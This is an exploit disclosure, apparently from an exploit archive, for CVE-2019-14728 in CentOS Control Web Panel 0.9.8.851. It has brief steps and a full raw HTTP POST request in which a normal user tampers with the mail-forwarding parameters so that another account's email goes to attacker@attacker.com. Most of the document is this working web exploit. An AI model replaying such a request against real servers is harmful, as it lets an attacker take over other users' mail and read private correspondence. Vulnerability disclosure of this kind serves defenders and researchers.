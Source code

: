 ```
Exploit Title       : CWP (CentOS Control Web Panel)  Add forward mail to other account
Date                : 24 Jul 2019
Exploit Author      : Pongtorn Angsuchotmetee, Nissana Sirijirakal, Narin Boonwasanarak
Vendor Homepage     : https://control-webpanel.com/
Software Link       : Not available, user panel only available for lastest version
Version             : 0.9.8.851
Tested on           : CentOS 7.6.1810 (Core) FireFox 68.0.1 (64-bit)
CVE-Number          : CVE-2019-14728
Reference	    : N/A
```

1. Log in as a normal user.
2. Go to "Email Accounts"
3. Try to add forward mail to the account
4. Intercept the request, and modify parameter "forwaraddres" and "domainforwar" to other email address (e.g. bob@bob2)

```
POST /cwp_b99b38b4d4ced310/alice/alice/index.php?module=email_accounts&acc=addforwar HTTP/1.1
Host: 192.168.80.148:2083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
csrftoken: 9a1f7869d43544fc9f509cb6ac7bf430
X-Requested-With: XMLHttpRequest
Content-Length: 73
Connection: close
Referer: https://192.168.80.148:2083/cwp_b99b38b4d4ced310/alice/?module=email_accounts
Cookie: PHPSESSID=i2is5am08ru7a2h93e13llp9e2

forwaraddres=bob2&domainforwar=bob2&forwarders=attacker@attacker.com
```